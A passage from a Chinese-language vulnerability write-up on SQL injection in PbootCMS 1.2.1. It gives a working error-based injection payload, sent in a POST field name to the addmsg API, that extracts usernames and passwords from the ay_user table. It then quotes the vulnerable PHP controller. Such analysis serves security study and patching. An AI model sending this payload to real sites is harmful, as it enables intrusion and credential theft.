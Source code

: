 这里我把关键代码放出来了，可以看到接收\$where以后直接仍进了数据库进行操作造成了注入

0x10.2 接口注入二
-----------------

### 0x10.2.1 漏洞利用

    url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addmsg
    post:
        contacts[contentl`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
        mobile = 111
        content = 111

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId50.png)

0x10.2.2 漏洞讲解
文件：PbootCMS-V1.2.1\\apps\\api\\controller\\CmsController.php
方法：addmsg(

    // 新增留言   注入
        public function addmsg()
        {
            if ($_POST) {

                // 读取字段
                if (! $form = $this->model->getFormField(1)) {
                    json(0, '接收表单不存在任何字段，请核对后重试！');
                }

                // 接收数据
                $mail_body = '';
                foreach ($form as $value) {
                    $field_data = post($value->name);
                    if ($value->required && ! $field_data) {
                        json(0, $value->description . '不能为空！');
                    } else {
                        $data[$value->name] = post($value->name);
                        $mail_body .= $value->description . '：' . post($value->name) . '<br>';
                    }
                }

                // 设置其他字段
                if ($data) {
                    $data['acode'] = get('acode', 'var') ?: $this->lg;
                    $data['user_ip'] = ip2long(get_user_ip());
                    $data['user_os'] = get_user_os();
                    $data['user_bs'] = get_user_bs();
                    $data['recontent'] = '';
                    $data['status'] = 0;
                    $data['create_user'] = 'api';
                    $data['update_user'] = 'api';
                }
